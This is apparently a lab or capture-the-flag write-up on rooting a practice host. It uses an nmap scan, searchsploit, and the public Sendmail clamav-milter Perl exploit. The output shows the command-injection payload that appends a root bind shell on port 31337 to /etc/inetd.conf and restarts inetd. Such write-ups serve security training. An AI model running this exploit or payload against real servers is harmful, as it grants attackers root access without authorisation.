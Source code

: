 # ClamAV

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.42
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 21:01 +08
Warning: 192.168.175.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.175.42
Host is up (0.17s latency).
Not shown: 65448 closed tcp ports (conn-refused), 80 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
139/tcp   open  netbios-ssn
199/tcp   open  smux
445/tcp   open  microsoft-ds
60000/tcp open  unknown
```

### ClamAV Root

This machine was obviously hinting towards abusing ClamAV, the Antivirus. The SMTP port was open, and we can search for exploits using `searchsploit`:

```
$ searchsploit clamav    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Clam Anti-Virus ClamAV 0.88.x - UPX Compressed PE File Hea | linux/dos/28348.txt
ClamAV / UnRAR - .RAR Handling Remote Null Pointer Derefer | linux/remote/30291.txt
ClamAV 0.91.2 - libclamav MEW PE Buffer Overflow           | linux/remote/4862.py
ClamAV < 0.102.0 - 'bytecode_vm' Code Execution            | linux/local/47687.py
ClamAV < 0.94.2 - JPEG Parsing Recursive Stack Overflow (P | multiple/dos/7330.c
ClamAV Daemon 0.65 - UUEncoded Message Denial of Service   | linux/dos/23667.txt
ClamAV Milter - Blackhole-Mode Remote Code Execution (Meta | linux/remote/16924.rb
ClamAV Milter 0.92.2 - Blackhole-Mode (Sendmail) Code Exec | multiple/remote/9913.rb
Sendmail with clamav-milter < 0.91.2 - Remote Command Exec | multiple/remote/4761.pl
----------------------------------------------------------- ---------------------------------
```

The last exploit looked interesting because it had 'Sendmail' in it. We can try it out:

```
$ perl 4761.pl 192.168.175.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.175.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Sat, 1 Jul 2023 13:02:43 -0400; (No UCE/UBE) logging access from: [192.168.45.164](FAIL)-[192.168.45.164]
250-localhost.localdomain Hello [192.168.45.164], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 361H2hEV004002 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

This exploit would spawn a `root` shell on port 31337 which we can connect to:

<figure><img src="../../../.gitbook/assets/image (71) (6).png" alt=""><figcaption></figcaption></figure>

Rooted!
